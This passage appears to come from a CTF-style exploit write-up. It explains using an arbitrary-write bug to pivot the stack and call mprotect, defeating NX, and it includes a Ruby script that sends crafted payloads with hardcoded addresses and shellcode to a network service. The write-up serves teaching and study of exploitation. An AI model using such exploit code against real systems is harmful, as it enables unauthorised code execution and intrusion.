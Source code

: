 Given that we can write to an arbitrary address, the natural target is the GOT. I attempted to overwrite the strcpy address, and while this will work, I knew it wasn&#8217;t sufficient due to NX bit. I needed a stack pivot to make this work. I was unable to quickly find a stack pivot that would work, so I tried something else.

I still wanted to do a stack pivot, since my preferred method to get around NX bit is to ret2mprotect. The only way to do this, though, required me to construct a custom stack. Kind of a chicken-and-egg problem. But, nothing stops our arbitrary memory write from writing to the stack, except for stack randomization. So, let&#8217;s assume we know the location of the stack and overwrite the stack. At this point, we can return to a &#8216;pop ebp; ret&#8217; and then to a &#8216;leave; ret&#8217;, and we have a stack pivot.

The obvious question at this point is why would we use a stack pivot when we can already write to a stack. Remember that when our arbitrary write vulnerability will use a strcpy, which means that our new stack can&#8217;t have null bytes. This is unreasonable. And, given that we know the location of the stack, we will know the location of the stack buffer that contains all 255 bytes we send to the program, including null bytes.

The new stack will look something like:

<pre><pre>[mprotect] [shellcode address] [mprotect arg1] [mprotect arg2] [mprotect arg3]</pre>


<p>
  The location of the shellcode doesn&#8217;t matter too much. It can be after the new stack, or it can be inside the intro text of a tape. It really doesn&#8217;t matter. As long as you know where it is located at run-time.
</p>


<p>
  Below is the applicable ruby code for overwriting the stack, doing a stack pivot, etc. Again, breaks are inserted to ease readability.
</p>


<pre>t = TCPSocket.new(host, port)
t.print "3\n1\n1\n1\n2\n1\n3\n3\n3\n"+shellcode+"\n"
t.print "3\n1\n\x41\x41\x41\x41\x78\x99\x04\x08\x01\xFF\xFF\xFF\x01\xFF\xFF\xFF"+return_addr+"\n"
t.print "3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\xFF\x01\xFF\xFF\x00\n"
t.print "3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\xFF\x01\xFF\x00\n"
t.print "3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\xFF\x01\x00\n"
t.print "3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\x00\n"
t.print "3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\x00\n"
t.print "3\n1\n\x41\x41\x41\x41\x1c\xb0\x04\x08\x01\x00\n"
t.print "3\n2\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB\xd0\xb0\x04\x08\n"
t.print "1\np\n10\n"
t.print "3\n4\n\xa8\x98\x04\x08"+buffer_addr+"\xac\x94\x04\x08DDDDEEEE"+mprotect+"\xd8\xb2\x04\x08\x00\xb0\x04\x08\x00\x10\x00\x00\x07\x00\x00\x00\n"
sleep 2
t.close
</pre>


<p>
  The basic overview of the above code: put shellcode in intro text, create custom page structure, setup stack with pointer to page structure, add <em>return_addr</em> pointer to the queue, and finally overwrite the stack by setting intro text.
</p>
